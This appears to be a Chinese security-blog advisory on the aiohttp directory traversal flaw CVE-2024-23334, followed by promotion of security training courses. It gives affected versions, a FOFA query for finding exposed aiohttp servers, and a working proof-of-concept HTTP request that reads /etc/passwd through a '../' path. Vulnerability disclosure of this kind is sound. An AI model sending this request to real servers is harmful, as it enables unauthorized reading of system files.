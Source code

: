 #  aiohttp存在目录遍历漏洞(CVE-2024-23334)   
闻人语默  老鑫安全   2024-12-15 09:31  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bkcWdoIicx2czZwSwnjVRSECvqMMufXr2XDFfgGH0oCTHwmib5fDmGOpSIibGdIKptdrwZt7e4Tg7icicHyS68Sg3Tw/640?wx_fmt=png&from=appmsg "")  
  
aiohttp是一个Python的HTTP客户端/服务器框架，它基于asyncio库实现异步编程模型，可以支持高性能和高并发的HTTP通信。aiohttp用于编写异步的Web服务器、Web应用程序或HTTP客户端，以提供对Web和HTTP资源的访问和操作。近日监测到aiohttp目录遍历漏洞的漏洞情报,aiohttp使用选项"follow_symlinks"来决定是否跟踪静态根目录之外的符号链接。当"follow_symlinks "设置为 "True "时,将不会验证读取的文件是否在根目录内从而导致目录遍历，攻击者可以利用此漏洞访问系统上的任意文件。  
  
版本  
```
1.0.5 <aiohttp < 3.9.2
```  
  
fofa  
```
app="aiohttp"
```  
  
poc  
```
GET /static/../../../../../../etc/passwd HTTP/1.1
Host: xxxxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bkcWdoIicx2czZwSwnjVRSECvqMMufXr2PEC1H8qnvcXvCzWBzXgvE2ZnWD2PGqRVlBbiabxRT9oZzaTib9Qicu75g/640?wx_fmt=png&from=appmsg "")  
  
大家伙，如果想学习更多的芝士，可以看我们的论坛：  
  
https://www.laoxinsec.com/  
  
哔哩哔哩有免费课程，搜索账号：老鑫安全培训，老鑫安全二进制  
  
进群二维码：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/bkcWdoIicx2czZwSwnjVRSECvqMMufXr2SpOLKz56ia9oUywEblwiaZ5ltzNC7sFOmAxSG3g19dD3AcfqpfBbdLbw/640?wx_fmt=webp&from=appmsg "")  
  
老鑫：前Wooyun核心白帽子，痴迷底层技术，在二进制方向有一定技术积累，后从事网安培训多年，截止目前已培训350+学员，培训学员遍布各大安全企业及机关单位。除二进制，web安全、安全开发、逆向等安全技术均有涉及。公众号：studentSec    
  
濠哥：奇安信粤东安全运营中心技术专家（牛逼的老师不需要简介）  
  
下面是关于我们的培训课程，如有需求，可以加入我们的微信群联系群主：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/bkcWdoIicx2czZwSwnjVRSECvqMMufXr2icHbhhQofCzQ80YGJoMibseEmMW45icndccvAmdKs5RVzvKnibhAKP0rog/640?wx_fmt=webp&from=appmsg "")  
  
进阶课程：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/bkcWdoIicx2czZwSwnjVRSECvqMMufXr24kibzPebnokbU7WdIe4rUwhEHxxg18D4sFia3ibLPTtByVAsBvPVShhWw/640?wx_fmt=webp&from=appmsg "")  
  
